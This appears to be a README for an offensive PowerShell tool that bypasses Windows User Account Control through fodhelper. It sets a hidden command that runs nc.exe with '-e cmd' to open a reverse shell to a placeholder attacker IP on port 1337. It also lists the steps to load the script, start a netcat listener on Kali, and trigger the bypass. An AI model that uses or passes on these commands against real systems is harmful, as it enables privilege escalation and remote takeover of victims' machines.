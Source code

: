 # Bypass UAC 

### Method 1
Before importing the file, please edit the "**BypassUACfodhelper_1.ps1**" file in the following section:: 

```
$CMD = "powershell -windowstyle hidden C:\Windows\Temp\nc.exe YOURIP 1337 -e cmd"
```

Execute:
```
Windows (Poweshell)> . .\BypassUACfodhelper_1.ps1

kali@unix:/$ rlwrap nc -lvp 1337

Windows (Poweshell)> UACBypass
```
